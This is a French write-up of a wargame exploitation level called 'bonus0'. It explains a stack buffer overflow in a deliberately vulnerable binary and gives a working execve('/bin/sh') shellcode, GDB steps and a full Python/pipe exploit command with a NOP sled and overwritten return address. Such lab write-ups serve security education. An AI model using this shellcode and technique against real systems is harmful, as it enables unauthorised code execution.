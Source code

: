 # Exploit détaillé pour bonus0

## Description du problème

Le binaire bonus0 présente une vulnérabilité de débordement de tampon. Il lit deux entrées utilisateur et les concatène de manière non sécurisée, permettant d'écraser l'adresse de retour sur la pile.

## Caractéristiques du binaire

- Pas de protection RELRO
- Pas de canary sur la pile
- NX désactivé (permet l'exécution de code sur la pile)
- Pas de PIE (les adresses sont prévisibles)

## Shellcode utilisé

```
"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
```

Ce shellcode de 21 octets exécute `/bin/sh`.

## Structure de l'exploit

1. Première entrée : NOP sled (100 octets) + Shellcode (21 octets)
2. Deuxième entrée : Padding (9 octets) + Adresse de retour (4 octets) + Remplissage (7 octets)

## Importance du NOP sled

Le NOP sled est une série d'instructions "No Operation" (\x90 en hexadécimal) placée avant le shellcode. Son importance est cruciale :

- Chaque NOP ne fait rien et passe à l'instruction suivante.
- Cette série crée une "glissade" vers notre shellcode.
- Peu importe où dans cette glissade on atterrit, on finira par atteindre le shellcode.
- Cette technique augmente considérablement la probabilité de succès de l'exploit, même si l'adresse de retour varie légèrement.

## Étapes détaillées de l'exploitation

1. Analyse du binaire avec GDB :
   ```
   gdb ./bonus0
   (gdb) disass main
   (gdb) disass p
   (gdb) b *p+28
   (gdb) run
   (gdb) x $ebp-0x1008
   ```
   Cela révèle l'adresse du buffer, par exemple 0xbfffe680.

2. Calcul de la plage d'adresses sûre pour le NOP sled :
   - Début : 0xbfffe680 + 61 = 0xbfffe6bd (61 octets pour les arguments et l'espace)
   - Fin : 0xbfffe680 + 100 = 0xbfffe6e4 (100 est la taille du NOP sled)

3. Construction de l'exploit :
   - Première entrée : 
     100 NOPs (\x90) suivis du shellcode de 21 octets
   - Deuxième entrée : 
     9 octets de padding ('A'), adresse de retour, 7 octets de remplissage ('B')

## Commande d'exploitation

```bash
(python -c 'print "\x90" * 100 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"'; python -c 'print "A" * 9 + "\xd0\xe6\xff\xbf" + "B" * 7'; cat) | ./bonus0
```

## Adresses de retour possibles

- 0xbfffe6d0 (\xd0\xe6\xff\xbf)
- 0xbfffe6c0 (\xc0\xe6\xff\xbf)
- 0xbfffe6e0 (\xe0\xe6\xff\xbf)
- 0xbfffe6a0 (\xa0\xe6\xff\xbf)

Toutes ces adresses sont dans la plage du NOP sled, augmentant les chances de succès de l'exploit.

## Fonctionnement détaillé de l'exploit

1. La première entrée place le NOP sled (100 octets) suivi du shellcode (21 octets) en mémoire.
2. La deuxième entrée écrase l'adresse de retour pour pointer vers une adresse dans le NOP sled.
3. Lors du retour de la fonction, l'exécution saute à l'adresse spécifiée dans le NOP sled.
4. Les instructions NOP sont exécutées une par une, "glissant" jusqu'au shellcode.
5. Le shellcode s'exécute, lançant un shell avec les privilèges de bonus1.

## Pourquoi cela fonctionne

- NX est désactivé, permettant l'exécution de code sur la pile.
- Pas de canary sur la pile, permettant l'écrasement de l'adresse de retour.
- Le grand NOP sled offre une large "cible" pour notre adresse de retour.
- Même si l'adresse varie légèrement, tant qu'elle pointe dans le NOP sled, l'exploit réussira.

## Variabilité et robustesse

- L'adresse exacte peut varier selon l'environnement d'exécution.
- Le NOP sled rend l'exploit plus robuste face à ces variations.
- Tester différentes adresses dans la plage du NOP sled peut être nécessaire.

## Précautions et usage éthique

Cet exploit est fourni uniquement à des fins éducatives et de recherche en sécurité. Ne l'utilisez que sur des systèmes pour lesquels vous avez une autorisation explicite. L'utilisation non autorisée de cet exploit peut être illégale et non éthique.

